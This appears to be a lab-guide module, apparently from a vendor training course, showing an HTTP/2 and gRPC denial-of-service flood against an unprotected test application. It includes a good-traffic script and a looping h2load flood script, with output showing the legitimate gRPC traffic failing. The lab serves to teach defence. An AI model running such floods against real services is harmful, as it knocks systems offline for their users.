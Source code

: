Module 6 - HTTP/2 and GRPC DoS Attack on Unprotected Application
################################################################

In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of an HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

Generate legitimate traffic

   1. In UDF, Click on Access for the **Legitimate Traffic Generator** VM and select WebShell (or ssh into the box if you set that up)

   2. We will utilize the **good.sh** bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. code-block:: bash 
   :caption: /good.sh

   #!/bin/bash
   cd /grpc/examples/python/route_guide/

   IP=10.1.1.17
   PORT=600
   URI='good_path.html'

   declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")

   while true; do
   echo
   python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
   h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.17:443/testing/ &> /dev/null

   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
   echo
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &


3. Run the good traffic shell script and keep it running:

.. code-block:: bash

   /good.sh


Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points 


Start HTTP/2 Flood attack

   1. Back in the UDF, click **Access** on the **Attack Traffic Generator** VM and select WebShell. Position this tab side-by-side with the **Legitimate Traffic Generator** WebShell tab that is already open so you can see both WebShells at the same time.

.. code-block:: bash
   :caption: http2flood.sh
   
   #!/bin/sh
   while true; do
      h2load -n 10000 -c 1000 http://10.1.1.17:500/routeguide.RouteGuide/GetFeature
   done


2. Run the http2 flood script for 15 seconds and keep it running:

.. code-block:: bash

   /scripts/http2flood.sh


Attack script output:

.. code:: shell 

  finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

3. Click back on to the WebShell on the Legitimate Traffic Generator VM. Did the output from the script change? Output should no longer show “Finished trip with 10 points” and you may see one of the following two messages:

   .. code:: shell

      "debug_error_string = "UNKNOWN:Error received from peer {created_time:"2024-01-26T15:39:49.83945022+00:00", grpc_status:2, grpc_message:"Stream removed"}""

   .. code:: shell

      E0129 18:20:43.992650291 4639 hpack_parser.cc:999] Error parsing 'content-type' metadata: invalid value

4. Stop the HTTP2Flood attack running on the Attack Traffic Generator host by pressing **Ctrl+C**

5. On the Legitimate Traffic Generator WebShell, press **Ctrl+C** to exit the script
